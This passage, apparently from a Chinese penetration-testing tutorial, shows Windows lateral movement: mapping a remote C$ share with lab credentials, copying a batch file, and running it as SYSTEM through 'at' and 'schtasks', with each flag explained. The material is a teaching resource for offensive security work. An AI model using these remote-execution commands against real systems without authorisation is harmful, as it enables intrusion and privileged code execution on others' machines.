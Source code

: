 #### 4.2.1.2 建立 IPC 连接、copy 文件、创建计划任务

```bash
net use \\192.168.19.169\c$ test@123 /user:adtest\jeff1 
copy 1.bat \\192.168.19.169\c$

net time \\192.168.19.169
at \\192.168.19.169 1:03 c:\1.bat

```

![](images/yushentou/15899741106249.png)


#### schtasks

由于 at 在新版本的系统中已被弃用，我们需要用 schtasks 替代

![](images/yushentou/15899741215945.png)


```bash
schtasks /create /s 192.168.19.177 /u adtest\jeff1 /p test@123 /ru "SYSTEM" /tn test /sc DAILY /tr c:\1.bat /F

```

创建计划任务，/s 指定远程机器名或 ip 地址，/ru 指定运行任务的用户权限，这里指定 为最高的 SYSTEM，/tn 是任务名称，/sc 是任务运行频率，这里指定为每天运行，并没什么 实际意义，/tr 指定运行的文件，/F 表示如果指定的任务已经存在，则强制创建任务并抑制警告

![](images/yushentou/15899741330208.png)


运行任务，其中/i 表示立即运行

```bash
schtasks /run /s 192.168.19.177 /u adtest\jeff1 /p test@123 /tn test /i

```

![](images/yushentou/15899741455858.png)

![](images/yushentou/15899741495401.png)


删除计划任务

```bash
schtasks /delete /s 192.168.19.177 /u adtest\jeff1 /p test@123 /tn test /f

```

![](images/yushentou/15899741602532.png)


![](images/yushentou/15899741639749.png)



